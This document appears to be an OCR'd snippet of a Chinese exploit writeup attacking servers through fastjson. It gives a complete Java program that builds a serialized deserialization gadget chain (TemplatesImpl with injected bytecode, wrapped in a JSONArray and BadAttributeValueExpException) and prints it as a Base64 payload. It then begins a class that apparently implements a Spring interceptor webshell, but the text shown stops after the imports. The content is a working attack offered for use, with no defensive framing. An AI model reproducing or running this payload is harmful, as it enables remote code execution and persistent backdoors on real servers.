 fastjson打Server👇

```java
import com.alibaba.fastjson.JSONArray;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import javassist.ClassPool;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

public class ServerSideAttack {
    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get("RegistryInterceptor").toBytecode();

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{code});
        setValue(templates, "_name", "1");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(val);

        System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));
    }
}
```

RegistryInterceptor👇

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.List;

```